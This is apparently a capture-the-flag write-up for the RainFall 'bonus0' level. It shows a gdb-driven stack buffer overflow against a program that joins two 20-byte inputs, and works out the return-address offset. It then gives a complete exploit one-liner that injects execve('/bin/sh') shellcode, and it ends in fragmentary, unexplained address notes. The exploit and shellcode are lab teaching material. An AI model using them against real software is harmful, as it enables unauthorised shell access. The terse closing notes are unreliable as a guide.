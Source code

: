 # bonus 00

The program wait for two input, and print them concatenated by a space :

```bash
bonus0@RainFall:~$ ./bonus0 
 - 
qwerty
 - 
qwerty
qwerty qwerty
```

By looking at the code, we can see that there are two read function executed. Each buffer read from the stdin is truncated to 20 bytes. They are then concatened with a strcpy first, and a strcat.

By simply passing two input of 20 bytes length, the program segfault:

```bash
(gdb) r
Starting program: /home/user/bonus0/bonus0 
 - 
AAAAAAAAAAAAAAAAAAAA
 - 
BBBBBBBBBBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB��� BBBBBBBBBBBBBBBBBBBB���

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

By looking after the function `pp`, we can see that there are 4 four random bytes copied before the space :

```bash
Breakpoint 3, 0x080485bd in main ()
(gdb) x/24wx $eax
0xbffff6d6:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6e6:     0x41414141      0x42424242      0x42424242      0x42424242
0xbffff6f6:     0x42424242      0x42424242      0xb7fd0ff4      0x42424220
0xbffff706:     0x42424242      0x42424242      0x42424242      0x42424242
0xbffff716:     0xfd0ff442      0xc85800b7      0x0000b7fd      0xf71c0000
0xbffff726:     0xf7acbfff      0x0000bfff      0x824c0000      0x0ff40804
(gdb) x $ebp
0xbffff708:     0x42424242
(gdb) x $ebp+4
0xbffff70c:     0x42424242
(gdb) p/d 0xbffff70c-0xbffff6d6
$3 = 54
```

`eip` is 54 bytes from the beginning of the buffer. We have five bytes between the 40 first and the last 20. So we need to put bytes at 10th position of the second buffer to overwrite `eip` :

```
(gdb) r
Starting program: /home/user/bonus0/bonus0 
 - 
AAAAAAAAAAAAAAAAAAAA
 - 
BBBBBBBBBCCCCBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBCCCCBBBBBBB��� BBBBBBBBBCCCCBBBBBBB���

Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
```


(python -c 'print "\x90" * (20-14) + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89"'; python -c 'print "\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x26\xf7\xff\xbf" + "C" * (20-13)';cat) | ./bonus0


0x080485b4

set exec-wrapper env -u LINES -u COLUMNS

x/s *((char **)environ)

0x \bf \ff \f8 \8c

0xbffff877

0x \bf \ff \f8 \8c

0xbfffe600